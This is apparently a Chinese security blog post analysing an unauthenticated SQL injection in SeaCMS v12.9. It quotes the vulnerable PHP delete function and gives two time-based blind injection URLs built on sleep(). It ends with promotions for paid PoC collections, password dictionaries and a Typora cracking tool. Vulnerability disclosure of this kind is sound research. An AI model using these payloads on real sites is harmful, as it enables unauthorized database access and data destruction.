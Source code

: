 #  漏洞分析 | SeaCMS v12.9 中 SQL 注入   
Hebing123  不秃头的安全   2024-03-27 07:26  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DicRqXXQJ6fVNCXqrL9k0r2icauIbCEBEls8X0kfM78frUZBL3ZSZKZlICQlev704WAdTLlWPZ0taFhvEm1mr3Lg/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**SeaCMS v12.9 中 SQL 注入**  
  
  
  
前言：本文中涉及到的相关技术或工具仅限技术研究与讨论，严禁用于非法用途，否则产生的一切后果自行承担，如有侵权请联系。  
  
还在学怎么挖通用漏洞和src吗？快来加入星球~私聊有优惠，满100人涨价~  
  
由  
于微信公众号推送机制改变了，快来  
星标不再迷路，谢谢大家！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DicRqXXQJ6fXy8gHzKiaBoATGQ8tpR3ahROtv4Aby7ehiafuS9DyQ6ESNKa1IP4YJpcEbDB3BrHMAQdHYwONFURWQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**漏洞详情**  
  
****  
SeaCMS v12.9版本中的dmku/index.php文件存在未经身份验证的SQL注入漏洞，用户提供的数据直接用于SQL查询而没有经过适当的恶意编码过滤处理。  
  
****  
****  
**源代码获取处**  
```
https://github.com/seacms-net/CMS
```  
  
  
****  
**漏洞代码存在位置**  
```
https://github.com/HuaQiPro/seacms/blob/ffa00178c7bf966b6bed7109ca76c270eadfeb70/js/player/dmplayer/dmku/class/mysqli.class.php#L287-L305
```  
  
********  
**漏洞分析**  
```
第287-305行
public static function 删除_弹幕数据($id)
{
        try {
            global $_config;
            $conn = @new mysqli($_config['数据库']['地址'], $_config['数据库']['用户名'], $_config['数据库']['密码'], $_config['数据库']['名称'], $_config['数据库']['端口']);
            $conn->set_charset('utf8');
            if ($_GET['type'] == "list") {
                $sql = "DELETE FROM sea_danmaku_report WHERE cid={$id}";
                $result = "DELETE FROM sea_danmaku_list WHERE cid={$id}";
                $conn->query($sql);
                $conn->query($result);
            } else if ($_GET['type'] == "report") {
                $sql = "DELETE FROM sea_danmaku_report WHERE cid={$id}";
                $conn->query($sql);
            }
        } catch (PDOException $e) {
            showmessage(-1, '数据库错误:' . $e->getMessage());
        }
    }
```  
  
上面看出，  
它直接被拼接到SQL语句中而没有进行过滤。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DicRqXXQJ6fUicTdia94uInTxVfqIjic7h2AMbZXaaMILTHicP5aJBRiaszzVbExS2dAavO2jb2bX5oiaibLczNkDicsr2A/640?wx_fmt=png&from=appmsg "")  
  
  
### PoC  
  
```
http(s)://x.x.x.x:port//js/player/dmplayer/dmku/?ac=del&id=(select(0)from(select(sleep(10)))v)&type=list
```  
  
```
http(s)://x.x.x.x:port//js/player/dmplayer/dmku/?ac=del&id=(select(0)from(select(sleep(15)))v)&type=list
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DicRqXXQJ6fUicTdia94uInTxVfqIjic7h2ADwBD15frzp6j1NxfrHLibE65PzP62IpoAhC9f5wY8Z6JNsf71jiay5Pw/640?wx_fmt=png&from=appmsg "")  
  
  
  
该漏洞允许未经身份验证的远程攻击者通过id参数注入任意SQL命令，可完成延时注入等操作。  
  
  
‍  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjIKcQsgZ0q8U9MOMKkIGEGjAcDMjOXuW6eYDOur79SYFak4z5Pu5v6liaPDvuaAVGKSibvBnKiaRFiaHvBDYwsfAQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**关于我们:**  
  
感谢各位大佬们关注-不秃头的安全，后续会坚持更新渗透漏洞思路分享、安全测试、好用工具分享以及挖掘SRC思路等文章，同时会组织不定期抽奖，希望能得到各位的关注与支持。  
  
  
  
  
**关注福利：**  
  
  
回复“  
google工具" 获取 google语法生成工具  
  
回复“  
小程序渗透工具" 获取 小程序渗透工具  
  
回复“  
暴力破解字典" 获取 各种常用密码字典打包  
  
回复“  
typora激活  
" 获取 最新typora激活程序  
  
回复“  
蓝队工具箱  
”即可获取一款专业级应急响应的集成多种工具的工具集  
  
  
  
**知识星球**  
  
  
星球里有什么？  
  
CNVD、EDU及SRC赏金，攻防演练资源分享(免杀，溯源，钓鱼等)，各种新鲜好用工具，最新poc定期更新，  
以及一些好东西（  
还在学怎么挖通用漏洞吗快来加入），16个专栏会持续更新~  
  
**90/100,涨价前的最后一波限时优惠立减，提前续费有优惠，好用不贵很实惠**  
  
****  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/DicRqXXQJ6fXVKN0UZ9GGvrqc4QDXM9Y4ehNibsFszRwUyiapOufVcjq26HQuvKjlyVQYZnPK6dET2DWaFBebibPCw/640?wx_fmt=jpeg&from=appmsg "")  
  
**交流群**  
  
回复"加群"或加我联系方式拉，下面有二维码，技术交流群~  
  
****  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjIKcQsgZ0q8U9MOMKkIGEGjAcDMjOXuW6eYDOur79SYFak4z5Pu5v6liaPDvuaAVGKSibvBnKiaRFiaHvBDYwsfAQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**安全考证**  
  
需要考以下各类安全证书的可以联系我，  
绝对低价绝对优惠、组团更便宜，报名成功先送星球一年，CISP、PTE、PTS、DSG、IRE、IRS、NISP、PMP、CCSK、CISSP......  
巨优惠：[](http://mp.weixin.qq.com/s?__biz=Mzg3NzkwMTYyOQ==&mid=2247485089&idx=1&sn=1ce62bfa8fd07d8de5d1c9eb33568b0b&chksm=cf1aa4f3f86d2de5a7ad4a33c66b106b6878233bdfee5fc91a245a24b6d1168ed2fde093136f&scene=21#wechat_redirect)  
  
  
[](http://mp.weixin.qq.com/s?__biz=Mzg3NzkwMTYyOQ==&mid=2247485089&idx=1&sn=1ce62bfa8fd07d8de5d1c9eb33568b0b&chksm=cf1aa4f3f86d2de5a7ad4a33c66b106b6878233bdfee5fc91a245a24b6d1168ed2fde093136f&scene=21#wechat_redirect)  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/DicRqXXQJ6fVicVKjibDEuQ9Kib0ia6TibrVmoFRWyXqReDwUhDas8kOqD29OfTA4XzqZjgw1pn8OYibtFfQxvPJq4kNg/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
